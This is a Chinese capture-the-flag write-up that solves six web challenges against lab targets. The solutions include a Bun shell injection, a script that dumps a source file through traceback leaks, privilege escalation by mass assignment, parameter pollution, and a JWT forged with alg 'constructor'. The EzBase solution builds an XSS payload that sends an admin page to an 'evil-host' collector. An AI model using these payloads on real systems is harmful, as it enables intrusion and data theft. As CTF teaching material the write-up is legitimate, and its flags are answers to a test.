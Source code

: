 ## 封神台wp

### EzEcho

bun 内部shell的解析bug

先创建文件并将内容写入sh脚本里面，然后再执行sh

好像是`1` 被当作触发重定向的标识，没有写入，作为文本内容。

```
/readflag1<huaji

`sh<huaji`
```

flag{rce_eas1y_th3n_i_think}

参考https://blog.csdn.net/2401_83799022/article/details/141859729



### EzPyeditor

因为 `traceback.format_exc()` 会把 **异常栈的文件路径和代码上下文** 返回给前端，如果我们把 `filename` 指向 `secret.py`，并且让 `source` 是空的（触发解析报错），那么 traceback 会尝试 **从这个文件加载源码行内容**，从而把 `secret.py` 里的 flag 泄露出来。



可以用 `source` 构造一个在指定行触发错误的假代码，让 traceback 去那一行读取内容：

```
{
    "source": "\n\n\n\nx y",  
    "filename": "secret.py"
}
```



所以exp如下：

```python
import requests
import re

url = "http://rc0uy94d.lab.aqlab.cn/check"   # 改成你的靶场地址
target_file = "secret.py"

def read_line(line_num):
    # 构造 source，让错误出现在指定行
    payload = {
        "source": "\n" * (line_num - 1) + "x y",  # x y 触发语法错误
        "filename": target_file
    }
    r = requests.post(url, json=payload)
    data = r.json()
    if not data["status"] and data["error"]:
        # 从 traceback 中提取对应行
        match = re.search(rf'File "{re.escape(target_file)}", line {line_num}\n\s*(.*)\n', data["error"])
        if match:
            return match.group(1)
    return None

def dump_file(max_lines=100):
    print(f"[*] Dumping {target_file} ...")
    for i in range(1, max_lines+1):
        line = read_line(i)
        if line is None:
            break
        print(f"{i:03d}: {line}")

if __name__ == "__main__":
    dump_file()
#flag{y0ur_1re_pyc0de_master!}
```



### EzGrades

创建用户时，加上is_teacher=true即可

![image-20250810213755826](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251005192849235.png)

然后再访问/grades_flag就有flag了，其中cookie是`auth_token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzdHVfbnVtIjoiaHVhamkiLCJzdHVfZW1haWwiOiJodWFqaUBodWFqaS5jb20iLCJwYXNzd29yZCI6IjEiLCJpc190ZWFjaGVyIjoidHJ1ZSJ9.4bhDOIr-X_u68snoXl5pwMG-v0HGMXyi7nzAXp62GrY`

flag{g00d_go0d_study_d1yd1yup}

### EzGetFlag

使用 两个字段：

第一个 给 Flask 看，第二个给 PHP 看

因为php会被变量绕过，flask接收了第一个，php相当于接收的第二个

![image-20250810214427451](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251005192849236.png)



# EzJwt Wp

```js
const algorithms = {
	hs256: (data, secret) => 
		base64UrlEncode(crypto.createHmac('sha256', secret).update(data).digest()),
	hs512: (data, secret) => 
		base64UrlEncode(crypto.createHmac('sha512', secret).update(data).digest()),
}
const createSignature = (header, payload, secret) => {
	const data = `${stringifyPart(header)}.${stringifyPart(payload)}`;
	const signature = algorithms[header.alg.toLowerCase()](data, secret);
	return signature;
}

const verify = (token, secret) => {
	const { header, payload, signature: expected_signature } = parseToken(token);
	const calculated_signature = createSignature(header, payload, secret);
	
	const calculated_buf = Buffer.from(calculated_signature, 'base64');
  console.log(calculated_buf)
  console.log(calculated_buf.toString('base64'))
	const expected_buf = Buffer.from(expected_signature, 'base64');
  console.log(expected_buf)

	if (Buffer.compare(calculated_buf, expected_buf) !== 0) {
		throw Error('Invalid signature');
	}

	return payload;
}
```

代码审计，发现后端在校验 JWT 时没有制定加密算法，于是想到可以手动指定 alg 标签来使得后端不使用那两种加密算法来进行验证，但是问题是 `algorithms` 只有两个元素，我们可以通过 JS 的特性找到一个 `Object` 或者 `{}` 对象本来就具有的函数，经过测试，我选择使用 `constructor()`，直接调用这个函数：

```js
  > let a = {}
... a['constructor']("123","456")
String {'123'}
```

经过测试，发现思路可行后，就直接修改本地代码获得签名之后的 base64。

![image-20250810231109801](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251005192849237.png)

修改后：

```text
ewogICJhbGciOiAiY29uc3RydWN0b3IiLAogICJ0eXAiOiAiSldUIgp9.ewogICJpc0FkbWluIjogdHJ1ZQp9.eyJhbGciOiJjb25zdHJ1Y3RvciIsInR5cCI6IkpXVCJ9eyJpc0FkbWluIjp0cnVlfQ
```

使用这个 cookie 去访问网站，拿到 cookie：

![image-20250810230839382](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251005192849238.png)

flag 为：

```text
flag{jwt_i_w0nt_see_you!:(}
```



### EzBase Wp

代码审计，发现题目会将用户上传的数据进行 base91 编码，然后显示出来，于是逆向思维，让编码后的文本为 xss payload，再 decode，就能拿到应该上传的数据。

#### exp

```py
import based91

res = based91.decode("<iframe/src=\"javascript%3Afetch%28%27%2F%27%29%2Ethen%28r%3D%3Er%2Etext%28%29%29%2Ethen%28s%3D%3E%7Bnew%20Image%28%29%2Esrc%3D%60http%3A%2F%2Fevil%2Dhost%3A8888%2Fget%5Fcookie%3Fcookie%3D%24%7BencodeURIComponent%28s%2Esubstring%280%2C2000%29%29%7D%60%7D%29%2Ecatch%28console%2Eerror%29%3B\">link</iframe>abc");

print(res.hex())

print(based91.encode(res))

```

iframe 中的 js 使用的 url 编码，同时 iframe 和 src 之间使用 `/` 隔开以避免使用空格，原始 js 代码为：

```js
javascript:fetch('/').then(r=>r.text()).then(s=>{new Image().src=`http://evil-host:8888/get_cookie?cookie=${encodeURIComponent(s.substring(0,2000))}`}).catch(console.error);
```

 执行脚本：

![image-20250810232114525](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251005192849239.png)

在页面上传：

![image-20250810232225908](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251005192849240.png)

然后让 bot 访问这个页面：

![image-20250810232258302](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251005192849242.png)

服务器拿到管理员首页页面源代码：

![image-20250810232357014](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251005192849243.png)

访问 flag 所在 encoding，拿到 flag：

![image-20250810232917139](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251005192849244.png)

<p style="text-align: right;">
by. Huaji
</p>




